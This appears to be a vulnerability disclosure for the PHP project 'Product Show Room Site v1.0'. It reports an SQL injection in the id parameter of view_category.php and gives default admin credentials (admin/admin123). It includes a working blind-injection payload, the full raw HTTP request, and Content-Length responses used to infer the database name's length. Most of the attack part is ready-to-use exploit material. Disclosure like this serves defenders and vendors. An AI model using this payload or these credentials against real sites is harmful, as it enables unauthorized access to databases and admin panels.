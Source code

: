 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/categories/view_category.php?id=

Vulnerability location: /psrs/admin/categories/view_category.php?id=, id

Current database name: hsrs_db ,length is 7

[+] Payload: /psrs/admin/categories/view_category.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /psrs/admin/categories/view_category.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 6, Content-Length: 780
![image](https://user-images.githubusercontent.com/54017627/171829131-88845078-4173-4b1f-9015-c7166a4482f9.png)

![image](https://user-images.githubusercontent.com/54017627/171829197-2f58b772-5f19-45cc-9d8c-b9dd3c03d2de.png)

When length (database ()) = 7, Content-Length: 552
![image](https://user-images.githubusercontent.com/54017627/171829092-bbd260b8-c7e2-446b-9e34-f7d0407b1abb.png)

![image](https://user-images.githubusercontent.com/54017627/171829155-59c0b012-8187-4141-b8a3-32aa2ba83dfa.png)
